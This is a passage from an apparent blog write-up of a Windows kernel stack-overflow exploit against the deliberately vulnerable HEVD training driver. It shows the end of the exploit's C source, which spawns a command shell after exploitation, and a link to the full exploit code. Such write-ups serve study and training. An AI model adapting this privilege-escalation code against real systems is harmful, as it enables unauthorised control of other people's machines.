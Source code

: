 ```C title="Final Exploit"
    exploit();

    system("cmd.exe /c cmd.exe /K cd C:\\");
    printf("[*] 1337 System Shell Bozo");

    return 0;
}
```

[Exploit on :fontawesome-brands-github: ](https://github.com/LinxzSec/Kernel-Exploits/blob/main/HEVD/StackOverflow64.c){.md-button .md-button--primary }

--8<-- "includes/abbreviations.md"

[^1]: In the future I will publish an article which explains that process in more detail. However in this example we're just going to use `EnumDeviceDrivers`.